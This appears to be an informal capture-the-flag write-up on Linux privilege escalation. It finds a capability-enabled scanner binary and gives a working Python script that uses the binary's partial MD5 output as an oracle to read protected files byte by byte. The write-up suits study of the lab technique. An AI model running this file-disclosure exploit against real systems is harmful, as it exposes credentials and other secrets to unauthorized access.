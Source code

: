 check out those two files -> dmca_check.sh and dmca_hashes.test
owned by root.... this is def the attack path if i was a betting man

```
cat dmca_check.sh
/opt/scanner/scanner -d /home/legal/uploads -h /home/greg/dmca_hashes.test
```
and dmca_hashes.test is just a list of hashes and ids...

and checking this:
```
getcap -r / 2>/dev/null
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/opt/scanner/scanner cap_dac_read_search=ep
```

we can see opt/scanner/scanner has permissions to read all files...
using this script i found :
```
#!/usr/bin/env python3

import hashlib
import subprocess
import sys


def get_hash(fn, n):
    """Get the target hash for n length characters of 
    filename fn"""
    proc = subprocess.run(f"/opt/scanner/scanner -c {fn} -s whatever -p -l {n}".split(),
                stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    try:
        return proc.stdout.decode().strip().split()[-1]
    except IndexError:
        return None


def get_next_char(output, target):
    """Take the current output and figure out what the
    next character will be given the target hash"""
    for i in range(256):
        if target == hashlib.md5(output + chr(i).encode()).hexdigest():
            return chr(i).encode()


output = b""
fn = sys.argv[1]

while True:
    target = get_hash(fn, len(output) + 1)
    next_char = get_next_char(output, target)
    if next_char is None:
        break
    output += next_char
    print(next_char.decode(), end="")
```
